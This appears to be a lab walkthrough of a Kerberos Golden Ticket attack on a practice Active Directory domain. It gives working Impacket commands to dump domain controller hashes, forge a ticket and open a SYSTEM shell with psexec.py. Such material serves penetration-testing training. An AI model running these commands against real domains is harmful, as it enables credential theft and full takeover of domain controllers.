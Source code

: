 # Kerberos Golden Ticket Attack

## Dumping hashes from DC using Impacket secretsdump.py

`sudo python secretsdump.py marvel.local/administrator:Password123\!@hydra-dc.marvel.local`

## Create Golden Ticket using Impacket ticketer.py

`python ticketer.py -aesKey <AES_KEY> -domain-sid <Domain_SID_HERE> -domain <domain.name> <anyusernamehere>`

This will generate a <username>.ccache file in the current directory.  Move the <username>.ccache file to /tmp/<username.ccache>
  
Set the following variable within the bash terminal:

`export KRB5CCNAME='<username>.ccache'`

## Editing /etc/hosts File

Now you will need to add your domain details and IP address to your /etc/hosts file.  In my case my domain name is marvel.local and the Domain Controller is named hydra-dc.marvel.local and is at 10.0.2.15:

```
10.0.2.15   hydra-dc.marvel.local
10.0.2.15   marvel.local

```

## Impacket psexec.py

Once everything above has been set you will now be able to use Impackets psexec.py script to get a shell on the domain controller as NT AUTHORITY\SYSTEM:

`sudo python psexec.py -k -no-pass marvel.local/badman@hydra-dc.marvel.local`

Note that in the command above you MUST specify the fully qualified domain name for the domain controller `hydra-dc.marvel.local`.  If you only specify the IP address it will not work and show the error:

```
KerberosError: Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```
Also the ticket must be generated and used within the 20 minute time-frame as described in the article here "https://passing-the-hash.blogspot.com/2014/09/pac-validation-20-minute-rule-and.html"
